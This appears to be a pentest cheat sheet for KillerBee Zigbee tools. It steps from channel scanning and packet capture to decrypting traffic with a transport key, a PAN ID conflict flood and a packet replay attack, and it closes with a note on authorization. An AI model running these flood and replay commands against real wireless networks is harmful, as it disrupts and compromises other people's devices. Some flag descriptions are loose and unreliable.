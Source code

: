 ### **Zigbee Network Command Operations**

---

#### **1. `sudo zbid`**
- **Function:** Checks the interface for Zigbee devices.
- **Usage:** `sudo zbid`

#### **2. `sudo zbstumbler -c 15 -v`**
- **Function:** Scans Zigbee channels for devices.
- **Usage:** `sudo zbstumbler -c 15 -v`
- `-c 15`: Scans on channel 15.
- `-v`: Verbose mode for detailed output.

#### **3. `sudo zbdump -f 15 -w capture.dump/.pcap`**
- **Function:** Captures Zigbee packets.
- **Usage:** `sudo zbdump -f 15 -w capture.dump/.pcap`
- `-f 15`: Filters packets on channel 15.
- `-w capture.dump/.pcap`: Writes captured packets to `capture.dump` or `.pcap` file.

#### **4. `zbdsniff -f capture.dump -v -k entertransportkey`**
- **Function:** Sniffs packets from a captured file.
- **Usage:** `zbdsniff -f capture.dump -v -k entertransportkey`
- `-f capture.dump`: Specifies the captured file to sniff from.
- `-v`: Enables verbose mode for detailed output.
- `-k entertransportkey`: Uses the specified transport key for decryption.

#### **5. `zbdwireshark -p -c 15`**
- **Function:** Opens captured packets in Wireshark.
- **Usage:** `zbdwireshark -p -c 15`
- `-p`: Specifies to open in promiscuous mode.
- `-c 15`: Filters packets for channel 15.

#### **6. Find EPAN ID from Wireshark data**
- **Process:** Analyze the Wireshark data to locate the Extended PAN ID (EPAN ID) within the Zigbee packets.

#### **7. `zbpanidconflictflood -f 15 -e Enter_epan_id -p pan_id -s coordinator_id`**
- **Function:** Floods the network with conflicting PAN IDs.
- **Usage:** `zbpanidconflictflood -f 15 -e Enter_epan_id -p pan_id -s coordinator_id`
- `-f 15`: Floods on channel 15.
- `-e Enter_epan_id`: Specifies the EPAN ID to flood.
- `-p pan_id`: Specifies the PAN ID to flood.
- `-s coordinator_id`: Specifies the coordinator ID.

#### **8. `zbreplay -f 15 -r capture.dump`**
- **Function:** Initiates a replay attack using captured packets.
- **Usage:** `zbreplay -f 15 -r capture.dump`
- `-f 15`: Filters packets on channel 15.
- `-r capture.dump`: Uses captured packets for the replay attack.

#### **Additional Notes:**
- These commands are used for testing and diagnostics in a Zigbee network.
- It's crucial to have proper authorization and ethical considerations when performing such operations.

---
